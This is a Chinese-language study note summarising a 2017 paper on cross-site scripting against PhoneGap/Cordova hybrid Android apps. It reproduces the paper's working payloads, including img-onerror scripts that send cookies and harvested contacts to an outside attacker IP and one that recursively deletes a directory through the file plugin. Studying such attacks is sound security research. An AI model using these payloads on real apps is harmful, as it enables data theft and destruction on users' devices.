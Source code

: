 ```yaml
---
title: Cross-site Scripting Attacks on Android Hybrid Applications
tags: [Meeting Paper, NTU]

category: "Survey Papers/Android + Security"
---
```


# Cross-site Scripting Attacks on Android Hybrid Applications
:::info
Bao, W., Yao, W., Zong, M., & Wang, D. (2017, March). Cross-site scripting attacks on android hybrid applications. In Proceedings of the 2017 International Conference on Cryptography, Security and Privacy (pp. 56-61).
:::

這一篇論文雖然很舊了，但還是蠻有趣的
## Introduction
他在講的是現在市面上的App通常會用一些像是Apache Cordova(早期叫做PhoneGap)這類型的Hybrid框架製作一款App，但是PhoneGap的做法是利用WebView渲染畫面，因此就勢必會出現XSS相關的攻擊，這一篇論文就是在探討如何達成攻擊，以及受害範圍有多廣
* Gartner 的一份報告稱，Hybrid App在基於 HTML5 的 Web  App和本機 App之間提供了平衡，到 2016 年，將在超過 50% 的行動 App中使用
* 為了美化 UI 並在 JavaScript 程式碼中使用行動裝置的原生功能，Hybrid App必須包含第三方元件，而且它們的程式碼可能不可靠。
* 在本文的其餘部分，我們首先對WebView和PhoneGap框架的漏洞進行深入分析。 然後根據我們日常生活中行動應用的使用場景，建立了XSS攻擊混合應用的一般流程。 攻擊結果表明，對Hybrid App的 XSS 攻擊可能會對使用者的行動裝置造成更大的破壞性結果。
## Background
* What is PhoneGap?
    ![圖片](https://hackmd.io/_uploads/rJsdoZWX0.png)
    上圖顯示了PhoneGap App的架構以及如何和device component互動，當Hybrid App的某個功能需要使用 PhoneGap API 時， App可以使用 JavaScript 程式碼呼叫 API，然後 App中的特殊層將 PhoneGap API 呼叫轉換為適合幕後特定功能的device API。
## Proposed Method
* How XSS attack success on PhoneGap's App?
    ![圖片](https://hackmd.io/_uploads/SyPtsW-7R.png)
    有兩種方是可以達成這個攻擊
    * 首先從上圖可以知道，外部的資料有很多種型態，可能是一般文字、QRcode、藍牙等等媒介，而當傳送的資料出現malicious code的時候，PhoneGap Interface的App就會接收這些有問題的資料，並且直接被WebView所render，此時attacker就可以直接根據傳送的payload達到竊取機敏資料的目的
        > 在使用者的幫助下注入程式碼。 當使用者開啟將行動裝置連接到外界的通道時，將提供存取權限以允許來自另一個裝置的攻擊。 惡意程式碼是透過在不知不覺中與另一個裝置互動來注入的，然後按照與第一個裝置類似的流程來實現攻擊。
    * 另外一種則是直接嵌入有問題的code在網頁中，等到使用者瀏覽這個網頁的時候就會被PhoneGap的WebView所Render，達成和上面一樣的效果，類似傳統的攻擊，受害範圍則是cookies, session hijacking, location leaking...，用的function是`document.cookie`, `write()`, `appendChilld()`, `script` tag
## Experiment
作者提到，為了分析一些可能受到XSS攻擊的應用場景，這些 App都是使用PhoneGap框架開發的混合 App。 由於Google Play提供的大部分PhoneGap App要麼沒有使用某些存在漏洞的PhoneGap插件，要麼不顯示攻擊效果，因此很難使用真實的 App進行演示。 因此，他們demo了對他們自己的PhoneGap App的攻擊
### Cookie Stealing and Session Hijacking
作者把malicious code插在簡單的comment management system中，這個App是PhoneGap Framework做的，而且有storage XSS漏洞。如果這個 App是基於native language的，那麼JavaScript code將永遠不會被執行。 但是，在此 PhoneGap  App中，如果 App使用任何易受攻擊的 API 來顯示評論，則程式碼將在 WebView 內執行。
![圖片1](https://hackmd.io/_uploads/SJ6ehb-mR.png)
* 左邊的圖片:
    ```javascript!
    <script>alert(document.cookie)</script>
    ```
    網頁沒有任何異常情況下，作者只使用"append()" API為網頁新增註解。 透過JQuery API顯示評論字段，然後同時觸發注入的程式碼。 顯然，"append()" API 並不安全。 "innerHTML" API 比"append()"更安全，並且不會運行"script"標籤內的程式碼，因此作者可以使用"innerHTML" API 來替換。
* 中間的圖片:
    這就是用替換成innerHTML的結果，會發現這次的攻擊就沒有成功
* 右邊的圖片:
    ```javascript!
    <img src=x onerror= "alert(document.cookie )">
    ```
    但我們還是可以改變payload，讓攻擊可以成功，也就是用上述提到的第二列payload，結果就會如最右邊的截圖
---
當然我們也可以嘗試把得到的敏感資訊透過第三個payload傳出去給attacker，得到的response如下
```javascript!
<img src=x onerror= "new Image().src='http://10.103.30.97:80/cookies/attacker.php?cookie='%2bdocument.cookie">
```
![圖片](https://hackmd.io/_uploads/HJ9W2WZmC.png)
Attacker's Server Receive:
```!
http://10.103.30.97/cookies/manage.php?name=Admin&token=e3afed0047b08059d0fada10f400c1e5
```
### Steal Contact Data
這次攻擊的標的是QRcode，我們可以把惡意的code嵌入在QRcode當中，如果有利用PhoneGap的App掃描到這個QRcode，因為他是在WebView中進行render，所以這個malicious code會被triggered，這個App使用的是`phonegap-plugin-barcodescanner`這個plugin，當程式碼顯示時，`img`的`onerror`事件將會被觸發，然後使用者的聯絡資料將會傳送給攻擊者。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "navigator.contacts.find(['displayName','phoneNumbers'],
        function(c){
        r='';
            for(i=0;c[i];i++){
                if(c[i].phoneNumbers&&c[i].phoneNumbers.length){
                    r+=c[i].displayName+c[i].phoneNumbers[0].value+'\n';
            }}
            alert(r);
        new Image().src='http://10.103.30.97/c.php?d='+r; })" >
    ```
如果是用Native Language寫的App就會如左邊的圖片那樣只有顯示這個QRcode儲存的資訊，但如果是用PhoneGap寫的App，經過WebView render出來的結果，就會顯示手機的聯絡人資訊。他是用`navigator.contacts.find`這個API去呼叫PhoneGap的聯絡人plugin的Java code來搜尋使用者的聯絡人
![圖片2](https://hackmd.io/_uploads/B158hZWmR.png)

### Delete Files
這一次換成利用藍牙這個標的達成攻擊，原文提到: 
> 一般來說，如果一個應用程式具有藍牙傳輸功能，它必須能夠讀取和寫入用戶行動裝置上的文件

為了demo攻擊的效果，作者使用`cordova-plugin-bluetooth-serial`插件和`cordova-plugin-file`插件開發了一個PhoneGap應用程式。藍牙裝置的名稱是透過`innerHTML`API顯示的，安全性不夠，攻擊者可以將藍牙裝置的名稱更改為惡意程式碼來實現攻擊。 並且與前兩種設計類似的是再次使用了`onerror`事件。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "window.requestFileSystem(LocalFileSystem.PERSISTENT,0
        ,function(f){
            f.root.getDirectory('ID_5',null,
                function (e){
                    e.removeRecursively(
                        function(){
                            alert('Delete ID_5 Success!')
                    },null); },null); },null);">
    ```

同樣的如果用native app進行連線，就不會遇到攻擊的問題(如左圖)，但如果是用右圖的PhoneGap設計的App，`window.requestFileSystem()`要求系統存取根檔案系統並傳回一個對象，該物件儲存在`FileSystem`變數f中。 它的 root 屬性包含一個`DirectoryEntry`對象，表示目前檔案系統的根目錄。 所以我們使用`f.root.getDirectory()`來搜尋根目錄中的`ID_5`目錄。 當找到目錄時，將回傳值儲存在`DirectEntry`物件e中，並呼叫第5行至第9行中的回呼函數。 然後`ID_5`目錄的`DirectEntry`物件呼叫其名為`removeRecurively()`的方法來刪除`ID_5`中的所有檔案。 第8行，右圖顯示指定目錄刪除成功的通知。 
![圖片3](https://hackmd.io/_uploads/rkNt3--mR.png)